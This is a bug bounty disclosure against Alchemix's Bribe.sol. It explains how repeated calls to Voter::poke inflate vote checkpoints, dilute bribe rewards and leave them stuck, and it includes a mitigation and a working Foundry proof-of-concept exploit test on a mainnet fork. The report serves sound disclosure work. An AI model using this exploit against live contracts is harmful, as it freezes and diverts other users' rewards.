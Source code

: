 
# Users can grief Bribe rewards, forcing them to be stuck forever by continuously calling `Voter::poke`

Submitted on May 18th 2024 at 15:43:37 UTC by @OxAlix2 for [Boost | Alchemix](https://immunefi.com/bounty/alchemix-boost/)

Report ID: #31409

Report type: Smart Contract

Report severity: Critical

Target: https://github.com/alchemix-finance/alchemix-v2-dao/blob/main/src/Bribe.sol

Impacts:
- Permanent freezing of unclaimed yield
- Griefing (e.g. no profit motive for an attacker, but damage to the users or the protocol)

## Description
## Brief/Intro
When users vote in the `Voter` contract, it calls `Bribe::deposit` to "save" this vote, so that later when rewards come in for that Bribe can be distributed to users who voted. The opposite happens when users reset/withdraw their votes. However, there's 1 anomaly between the Bribe's deposit and withdrawal, where on deposit, Bribe is "checkpointing" the votes using:
```
totalVoting += amount;
_writeVotingCheckpoint()
```
And the opposite is not happening on the withdrawal, this allows users to mess up all the Bribe's rewards.

## Vulnerability Details
When users vote in the `Voter` contract, it calls `Bribe::deposit` which increases the total votes of that Bribe, however, on withdrawal these votes aren't being subtracted. On the other hand, the `Voter` contract allows users to continuously call the `poke` function that resets and then vote again in the same gauges/bribes, without any condition on that function. This allows voters to continuously call the `poke` function to skyrocket the total votes checkpoints in the Bribe, remember when `poke` resets/withdraws the votes they are not being removed.

These total votes' checkpoints are being used in `Bribe::earned`, to calculate the earned amount to each voter, it is being divided by, https://github.com/alchemix-finance/alchemix-v2-dao/blob/main/src/Bribe.sol#L261, which wrongly decrease the rewards for each user.

## Impact Details
* Griefing of users, as their rewards will be a lot less than what they "deserve", if there were even some rewards left.
* The remaining unclaimed rewards will remain stuck forever in the contract.

## References
https://github.com/alchemix-finance/alchemix-v2-dao/blob/main/src/Bribe.sol#L319-L329

## Mitigation
Add the following in `Bribe::withdraw`:
```
totalVoting -= amount;
_writeVotingCheckpoint();
```
 

## Proof of concept
Fork block number used: `19877251`

```
function testGriefBribeRewards() public {
    // Bribe config
    uint256 usdcRewardAmount = 100e6;
    hevm.prank(voter.admin());
    voter.whitelist(usdc);
    address bribeAddress = voter.bribes(voter.gauges(alUsdPoolAddress));
    deal(address(usdc), address(this), usdcRewardAmount);
    IERC20(usdc).approve(bribeAddress, usdcRewardAmount);

    // Admin and Beef create locks
    uint256 tokenId1 = createVeAlcx(admin, TOKEN_1, MAXTIME, false);
    uint256 tokenId2 = createVeAlcx(beef, TOKEN_1, MAXTIME, false);

    address[] memory pools = new address[](1);
    pools[0] = alUsdPoolAddress;
    uint256[] memory weights = new uint256[](1);
    weights[0] = 5000;

    // Admin and Beef vote
    hevm.prank(admin);
    voter.vote(tokenId1, pools, weights, 0);
    hevm.prank(beef);
    voter.vote(tokenId2, pools, weights, 0);

    // Confirm voting success
    assertGt(IBribe(bribeAddress).totalVoting(), 0);

    // Increase time to reach just before epoch end
    hevm.warp(IBribe(bribeAddress).getEpochStart(block.timestamp) + 2 weeks - 1 hours);

    // Beef continously calls poke, messing up votes checkpoints in the Bribe contract
    hevm.startPrank(beef);
    voter.poke(tokenId2);
    hevm.warp(block.timestamp + 1);
    voter.poke(tokenId2);
    hevm.warp(block.timestamp + 1);
    voter.poke(tokenId2);
    hevm.warp(block.timestamp + 1);
    voter.poke(tokenId2);
    hevm.warp(block.timestamp + 1);
    voter.poke(tokenId2);
    hevm.stopPrank();

    // Rewards come in to the Bribe contract
    IBribe(bribeAddress).notifyRewardAmount(usdc, usdcRewardAmount);

    // Epoch ends
    hevm.warp(block.timestamp + 1 hours);

    // Voting still exists
    assertGt(IBribe(bribeAddress).totalVoting(), 0);
    // Rewards for each token is around 14 USDC where it should be 50 USDC (100 USDC / 2 tokens)
    assertEq(IBribe(bribeAddress).earned(usdc, tokenId1) / 1e6, 14);
    assertEq(IBribe(bribeAddress).earned(usdc, tokenId2) / 1e6, 14);
}
```